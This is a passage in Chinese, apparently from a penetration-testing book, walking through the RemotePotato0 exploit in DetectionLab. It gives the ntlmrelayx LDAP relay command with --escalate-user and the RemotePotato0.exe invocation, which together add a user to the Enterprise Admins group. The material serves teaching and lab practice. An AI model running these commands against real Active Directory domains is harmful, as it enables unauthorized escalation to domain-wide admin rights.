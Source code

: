 +   攻击者需要在计算机上加入“远程桌面管理”组

+   “域管理员”组的成员必须在该机器上以交互方式登录

在 GOADv2 实验室中，此漏洞不可利用，然而，在 DetectionLab 中它仍然有效。漏洞利用代码可在此处获取[10]。我使用了来自 DetectionLab 的域控制器和交换服务器。在一台 Kali 机器上，我启动了`ntlmrelayx`，然后通过 PSRemote 会话在交换服务器上运行了漏洞利用：

```
sudo impacket-ntlmrelayx -t ldap://192.168.56.102 --no-wcf-server --escalate-user vinegrep
```

然后，我在交换服务器上运行了漏洞利用：

```
RemotePotato0.exe -m 0 -r 192.168.56.100 -p 9998 -s 1
```

漏洞利用的结果见下图：

![图 6.7 – RemotePotato0 漏洞利用执行](img/B18964_06_07.jpg)

图 6.7 – RemotePotato0 漏洞利用执行

结果，我们可以看到我们的用户已被添加到**企业管理员组**：
